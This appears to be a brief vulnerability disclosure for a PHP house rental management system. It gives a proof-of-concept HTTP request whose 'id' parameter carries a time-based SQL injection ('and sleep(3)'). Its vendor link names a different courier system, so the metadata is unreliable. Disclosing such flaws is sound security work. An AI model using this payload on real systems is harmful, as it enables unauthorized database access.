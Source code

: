 1.house rental management system sql inject

2.Description The system Client doesn't properly sanitise POST parameter, which result into a Ssql inject.

3.Vendor Homepage https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html#google_vignette

4.Author will@webray.com.cn inc

5.Proof of Concept 

(1)The request packet is as follows

POST /rental/ajax.php?action=delete_tenant HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 20
Origin: 
Sec-GPC: 1
Connection: close
Referer: http://127.0.0.1/rental/index.php?page=tenants
Cookie: PHPSESSID=m2d2dle30rvjnncs2tdtn9c37e

id=4+and+sleep(3)--+
![image](https://github.com/will121351/wenqin.webray.com.cn/blob/main/img/house-rental-management-system1.png)

(2)The vulnerability code is as follows

![image](https://github.com/will121351/wenqin.webray.com.cn/blob/main/img/house-rental-management-system2.png)
